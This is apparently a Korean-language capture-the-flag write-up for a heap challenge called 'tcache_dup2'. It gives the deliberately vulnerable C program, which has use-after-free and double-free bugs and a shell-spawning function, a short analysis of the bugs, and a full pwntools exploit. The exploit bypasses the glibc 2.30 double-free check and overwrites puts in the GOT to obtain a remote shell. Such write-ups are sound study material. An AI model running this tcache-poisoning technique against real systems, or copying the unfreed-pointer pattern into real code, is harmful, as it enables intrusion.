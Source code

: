 ```c
// Name: tcache_dup2.c

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

char *ptr[7];

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
}

void create_heap(int idx) {
    size_t size;

    if (idx >= 7)
        exit(0);

    printf("Size: ");
    scanf("%ld", &size);

    ptr[idx] = malloc(size);

    if (!ptr[idx])
        exit(0);

    printf("Data: ");
    read(0, ptr[idx], size-1);
}

void modify_heap() {
    size_t size, idx;

    printf("idx: ");
    scanf("%ld", &idx);

    if (idx >= 7)
        exit(0);

    printf("Size: ");
    scanf("%ld", &size);

    if (size > 0x10)
        exit(0);

    printf("Data: ");
    read(0, ptr[idx], size);
}

void delete_heap() {
    size_t idx;

    printf("idx: ");
    scanf("%ld", &idx);
    if (idx >= 7)
        exit(0);

    if (!ptr[idx])
        exit(0);

    free(ptr[idx]);
}

void get_shell() {
    system("/bin/sh");
}
int main() {
    int idx;
    int i = 0;

    initialize();

    while (1) {
        printf("1. Create heap\n");
        printf("2. Modify heap\n");
        printf("3. Delete heap\n");
        printf("> ");

        scanf("%d", &idx);

        switch (idx) {
            case 1:
                create_heap(i);
                i++;
                break;
            case 2:
                modify_heap();
                break;
            case 3:
                delete_heap();
                break;
            default:
                break;
        }
    }
}
```

```bash
$ checksec ./tcache_dup2
[*] './tcache_dup2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

# 코드 분석

* `tcache_dup2.c:13-29` : `malloc` 함수로 청크를 할당하고 메모리 영역을 초기화하지 않으므로 use after free가 발생할 가능성이 있다.
* `tcache_dup2.c:31-48` : 할당해둔 청크의 데이터를 최대 `0x10` 바이트 수정할 수 있다.
* `tcache_dup2.c:50-62` : `free` 함수로 청크를 해제하고 포인터를 초기화하지 않아 dangling pointer가 발생하며, 따라서 double free bug가 발생할 가능성이 있다.
* `tcache_dup2.c:64-66` : 호출하는 것만으로 shell을 탈취할 수 있다.

# 공격

이번 문제도 기본적으로는 "tcache_dup"과 같은 방식으로 접근하면 풀 수 있다.
다만, "tcache_dup"과는 달리, `libc`의 버전이 `2.30`이므로 key값을 변조하지 않으면 double free를 할 수 없다.
따라서 double free를 하기 전 `modify_heap()`을 통해 key값을 변조하는 작업을 추가로 진행해주기만 하면 크게 어렵지 않게 풀 수 있다.

다음과 같이 익스플로잇 코드를 구성하면 flag를 얻을 수 있다.

```python
# Name: tcache_dup2.py

from pwn import *

def slog(name,addr): success(f'{name}: {hex(addr)}')

HOST = 'host3.dreamhack.games'
PORT = 12397

p = remote(HOST,PORT) # remote
# p = process('./tcache_dup2', env={'LD_PRELOAD':'./libc-2.30.so'}) # local
e = ELF('./tcache_dup2')

# context.log_level = 'debug'

#ifndef __Custom_Functions_For_Convenience_
#define __Custom_Functions_For_Convenience_
def create_heap(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)

def modify_heap(idx, size, data):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: ', str(idx).encode())
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)

def delete_heap(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'idx: ', str(idx).encode())
#endif /* __Custom_Functions_For_Convenience_ */

#ifndef __Custom_Global_Variables_For_Convenience_
#define __Custom_Global_Variables_For_Convenience_
dummy = b'A'
puts_got = e.got['puts']
get_shell = e.symbols['get_shell']
#endif /* __Custom_Global_Variables_For_Convenience_ */

# Initial tcache is empty
# tcache[0x20]: empty

# tcache[0x20]: Chunk A -> Chunk A
create_heap(0x10, dummy)
delete_heap(0) # tcache[0x20].append(Chunk A)
modify_heap(0, 0x10, dummy * 9) # Bypassing the DFB mitigation
delete_heap(0) # tcache[0x20].append(Chunk A)

# tcache[0x20]: puts@got -> ...
modify_heap(0, 0x10, p64(puts_got) + b'\x00') # tcache[0x20].first().set_fd(puts_got) & Bypassing the DFB mitigation
create_heap(0x10, dummy) # tcache[0x20].pop()

# Overwrite puts@got
create_heap(0x10, p64(get_shell))

p.interactive()
```